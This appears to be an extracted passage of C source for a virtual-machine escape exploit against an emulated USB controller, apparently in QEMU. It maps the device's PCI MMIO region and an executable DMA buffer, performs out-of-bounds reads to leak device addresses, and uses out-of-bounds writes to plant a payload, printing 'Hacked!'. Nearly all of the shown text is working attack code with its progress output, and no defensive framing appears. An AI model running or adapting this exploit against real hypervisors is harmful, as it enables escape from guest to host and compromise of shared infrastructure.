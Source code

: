 ```
    oob_write(0, offset+0x8, offset-0x1010,1);

    if(flag)`{`
        printf("\033[41;37m[*] Hacked!\033[0m\n");
    `}`

    *(unsigned long *)(data_buf) = payload;
    oob_write(0, 0xffff, 0,0);
`}`

void init(void)`{`
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1)
        die("mmio_fd open failed");

    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED)
        die("mmap mmio_mem failed");

    dmabuf = mmap(0, 0x3000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
    if (dmabuf == MAP_FAILED)
        die("mmap");

    mlock(dmabuf, 0x3000);

    //printf("[*] mmio_mem : %p\n", mmio_mem);
    //printf("[*] dmabuf : %p\n",dmabuf);

    entry = dmabuf + 0x4;
    qh = dmabuf + 0x100;
    qtd = dmabuf + 0x200;
    setup_buf = dmabuf + 0x300;
    data_buf = dmabuf + 0x1000;
    data_bufoob = dmabuf + 0x2000;
    first_leak_data = dmabuf + 0x2000;
    second_leak_data = dmabuf + 0x1000;    
`}`

int main()`{`
    puts("\033[41;37m[*] Beginning\033[0m");
    puts("\033[47;31m[*] Wait a moment\033[0m");

    init();

    printf("\033[41;37m[*] Step 1/3\033[0m\n");

    oob_read(0x2000,1);
    device_addr = 0;

    for(int i=36;i&lt;42;i++)`{`
        uint64_t tmp = first_leak_data[i] &amp; 0xff;
        device_addr |= tmp &lt;&lt; ((i-36) * 8);
    `}`

    func_addr = 0;
    port_addr = device_addr+0x78;
    data_buf_addr = device_addr+0xdc;

    printf("\033[47;31m[*] Devices addr : 0x%lx\033[0m\n",device_addr);
    printf("\033[47;31m[*] Port addr : 0x%lx\033[0m\n",port_addr);
    printf("\033[47;31m[*] Data Buf addr : 0x%lx\033[0m\n",data_buf_addr);

```